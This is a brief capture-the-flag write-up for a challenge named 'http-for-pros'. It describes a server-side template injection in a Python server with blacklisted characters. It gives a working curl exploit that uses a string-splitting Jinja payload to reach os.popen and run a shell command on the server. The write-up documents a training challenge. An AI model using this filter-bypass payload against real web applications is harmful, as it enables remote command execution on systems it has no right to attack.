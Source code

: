 Challenge name: http-for-pros
Description: You have all the hints you need... Get the flag!

We opened burpsuite and tried different payloads in order to get the flag. The vulnerability is a SSTI and the server is running on python.
Many chars are blacklisted like '.'. After a close analysis and a look on payloadsallthethings I found the exploit: curl -G "http://35.246.235.150:30463" \
>   --data-urlencode 'content={{request["appli"+"cation"][request.args.u*2+"globals"+request.args.u*2][request.args.u*2+"buil"+"tins"+request.args.u*2][request.args.u*2+"imp"+"ort"+request.args.u*2]("os")["po"+"pen"](request.args.f)["read"]()}}' \
>   --data-urlencode 'u=_' \
>   --data-urlencode 'f=cat flag'